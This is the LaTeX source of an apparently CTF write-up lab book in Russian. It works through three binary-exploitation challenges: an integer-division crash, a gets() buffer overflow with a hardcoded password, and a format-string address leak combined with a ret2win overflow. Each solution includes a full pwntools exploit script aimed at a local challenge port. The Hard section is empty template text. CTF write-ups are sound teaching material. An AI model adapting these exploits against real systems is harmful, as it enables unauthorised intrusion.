%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Daily Laboratory Book
% LaTeX Template
% Version 1.0 (4/4/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% Frank Kuster (http://www.ctan.org/tex-archive/macros/latex/contrib/labbook/)
%
% Important note:
% This template requires the labbook.cls file to be in the same directory as the
% .tex file. The labbook.cls file provides the necessary structure to create the
% lab book.
%
% The \lipsum[#] commands throughout this template generate dummy text
% to fill the template out. These commands should all be removed when 
% writing lab book content.
%
% HOW TO USE THIS TEMPLATE 
% Each day in the lab consists of three main things:
%
% 1. LABDAY: The first thing to put is the \labday{} command with a date in 
% curly brackets, this will make a new page and put the date in big letters 
% at the top.
%
% 2. EXPERIMENT: Next you need to specify what experiment(s) you are 
% working on with an \experiment{} command with the experiment shorthand 
% in the curly brackets. The experiment shorthand is defined in the 
% 'DEFINITION OF EXPERIMENTS' section below, this means you can 
% say \experiment{pcr} and the actual text written to the PDF will be what 
% you set the 'pcr' experiment to be. If the experiment is a one off, you can 
% just write it in the bracket without creating a shorthand. Note: if you don't 
% want to have an experiment, just leave this out and it won't be printed.
%
% 3. CONTENT: Following the experiment is the content, i.e. what progress 
% you made on the experiment that day.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} % 'openany' here removes the gap page between days, erase it to restore this gap; 'oneside' can also be added to remove the shift that odd pages have to the right for easier reading

\usepackage[ 
  backref=page,
  pdfpagelabels=true,
  plainpages=false,
  colorlinks=true,
  bookmarks=true,
  pdfview=FitB]{hyperref} % Required for the hyperlinks within the PDF
  
\usepackage{booktabs} % Required for the top and bottom rules in the table
\usepackage{float} % Required for specifying the exact location of a figure or table
\usepackage{graphicx} % Required for including images2
\usepackage{listings} % Used for programs' listings
\usepackage{tcolorbox} % For textboxes
\usepackage{hyperref}

\usepackage[english,russian]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T2A]{fontenc}

\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Command to make the lines in the title page
\setlength\parindent{0pt} % Removes all indentation from paragraphs

%----------------------------------------------------------------------------------------
%	DEFINITION OF EXPERIMENTS
%----------------------------------------------------------------------------------------

\newexperiment{easy1}{Crash me}
\newexperiment{easy2}{System health check}
\newexperiment{medium1}{You're a Wizard, Harry}
\newexperiment{medium2}{<Название>}
\newexperiment{hard1}{<Название>}
\newexperiment{hard2}{<Название>}

%---------------------------------------------------------------------------------------

\begin{document}

%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\frontmatter % Use Roman numerals for page numbers
\title{
\begin{center}
\HRule \\[0.4cm]
{\Huge \bfseries CTF Code \\[0.5cm] \Large Writeups}\\[0.4cm] % Degree
\HRule \\[1.5cm]
\end{center}
}
\author{\Huge Binary analysis \\ \\[2cm]} % Your name and email address
\maketitle

\tableofcontents

\mainmatter % Use Arabic numerals for page numbers

%----------------------------------------------------------------------------------------
%	LAB BOOK CONTENTS
%----------------------------------------------------------------------------------------

% Blank template to use for new days:

%\labday{Day, Date Month Year}

%\experiment{}

%Text

%-----------------------------------------

%\experiment{}

%Text

%----------------------------------------------------------------------------------------

\labday{Easy}

\experiment{easy1}

\textbf{Теги:} C, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}

\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}

%-----------------------------------------

\experiment{easy2}

\textbf{Теги:} C, Buffer Overflow, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

После чего получаем флаг \verb|oren_ctf_baron_samedit!|

%----------------------------------------------------------------------------------------

\labday{Medium}

\experiment{medium1}

\textbf{Теги:} C, Buffer Overflow, Format String, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

По своей сути задача является вариацией предыдущей - просто с небольшими изменениями в виде того, что теперь бинарь не позиционно-независимый и адреса меняются через ASLR. Поэтому задача просто посчитать адрес функции перед ее вызовом. И важно помнить, что теперь наш бинарь не 32, а 64 битный, то есть размеры регистров не $4$, а $8$ байт.
Начало остается точно таким же: мы отслыаем пароль и нулевой байт. Опять в прологе видим, что под буфер отведено $256$ байт. То есть суммарно на стеке "ненужного места" $264$ байта - $256$ буффера и $8$ \verb|rbp|. Длина нужного заклинания вместе с нулевым байтом - $13$ символов. То есть нужно забить $251$ байт, после чего можно смело совать адрес нужной функции и радостно получать флаг\footnote{Кстати, пару слов про возможности pwntools. Они как раз применяются в этом сплойте: очень часто достаточно долго считать, сколько же места нужно забить. Для этого в этом фреймворке есть замечательная функция cyclic, которая генерирует строку с помощью \href{https://en.wikipedia.org/wiki/De_Bruijn_sequence}{последовательности де Брёйна}. Таким образом достаточно просто найти буквы, которые после переполнения окажутся в IP и умножать на их вхождение в последовательность, для чего тоже существует отдельная функция.}.

Но как нам добыть нужный адрес? Если внимательно посмотреть, то можно увидеть, что \verb|printf| выводит строку без спецификатора, прям как есть. Это уязвимость форматной строки. Так как прототип \verb|printf|'a выглядит как 

\verb|extern int printf(const char *__restrict __format, ...)|, то можно получать адреса на стеке - \verb|printf| интерпретирует переменную, которую ему дали, как форматную строку, а в качестве, которые нужно в нее подставить будет брать значения стека. Таким образом можно получить адрес возврата из функции \verb|AAAAAAAA|, после чего отнять от этого числа разницу между ее адресом возврата и началом функции WIN и таким образом получить адрес функции WIN, который уже можно перезаписывать на стек и возвращаться по нему.

Окей, мы определились с нашим пайлоадом: заклинание + нулевой байт + мусор + нужный адрес. Но тут возникает подстава - программа падает. Если погуглить (или знать), то можно найти, что функции из libc требуют выравнивания стека. Проблема. Но можно воспользоваться ROP (Return Oriented Programming) - для начала вернуться из WIN-функции и таким образом выравнять стек. То есть, в конечно итоге, пайлоад будет выглядеть как: заклинание + нулевой байт + мусор + адрес возврата из WIN + адрес WIN.

Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|

%-----------------------------------------

\experiment{medium2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\labday{Hard}

\experiment{hard1}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%-----------------------------------------

\experiment{hard2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\end{document}